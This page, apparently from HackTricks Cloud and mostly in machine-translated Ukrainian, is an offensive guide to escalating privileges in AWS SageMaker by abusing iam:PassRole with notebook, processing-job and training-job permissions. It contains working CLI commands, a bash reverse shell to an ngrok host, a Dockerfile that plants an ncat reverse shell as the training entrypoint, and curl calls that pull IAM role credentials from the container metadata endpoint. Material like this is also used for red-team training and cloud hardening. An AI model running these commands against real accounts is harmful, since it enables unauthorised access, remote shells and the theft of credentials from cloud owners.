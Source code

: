 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Почніть створювати нотатник з IAM роллю, щоб отримати доступ до прикріпленого до нього:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Відповідь повинна містити поле `NotebookInstanceArn`, яке міститиме ARN новоствореного екземпляра блокнота. Потім ми можемо використовувати API `create-presigned-notebook-instance-url`, щоб згенерувати URL, який ми можемо використовувати для доступу до екземпляра блокнота, як тільки він буде готовий:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Перейдіть за URL-адресою в браузері та натисніть на \`Open JupyterLab\` у верхньому правому куті, потім прокрутіть вниз до вкладки “Launcher” і в розділі “Other” натисніть кнопку “Terminal”.

Тепер можливо отримати доступ до облікових даних метаданих IAM Role.

**Potential Impact:** Privesc до ролі служби sagemaker, що вказана.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Якщо на ньому **вже запущені Jupyter ноутбуки** і ви можете їх перерахувати за допомогою `sagemaker:ListNotebookInstances` (або виявити їх будь-яким іншим способом). Ви можете **згенерувати URL для них, отримати до них доступ і вкрасти облікові дані, як зазначено в попередній техніці**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Потенційний вплив:** Privesc до ролі служби sagemaker, що прикріплена.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Зловмисник з цими дозволами може змусити **sagemaker виконати обробку роботи** з роллю sagemaker, прикріпленою до неї. Зловмисник може вказати визначення контейнера, який буде запущено в **управляємому AWS ECS обліковому записі**, і **викрасти облікові дані прикріпленої IAM ролі**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Потенційний вплив:** Privesc до ролі служби sagemaker, що вказана.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Зловмисник з цими дозволами зможе створити навчальну задачу, **запускаючи довільний контейнер** на ній з **прикріпленою роллю**. Отже, зловмисник зможе вкрасти облікові дані ролі.

{% hint style="warning" %}
Цей сценарій складніше експлуатувати, ніж попередній, оскільки вам потрібно створити образ Docker, який надішле rev shell або облікові дані безпосередньо зловмиснику (ви не можете вказати команду запуску в конфігурації навчальної задачі).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Потенційний вплив:** Privesc до ролі служби sagemaker.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Зловмисник з цими дозволами зможе (потенційно) створити **роботу з навчання гіперпараметрів**, **запустивши довільний контейнер** на ній з **прикріпленою роллю**.\
_Я не експлуатував через брак часу, але це виглядає подібно до попередніх експлойтів, не соромтеся надіслати PR з деталями експлуатації._

## Посилання

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

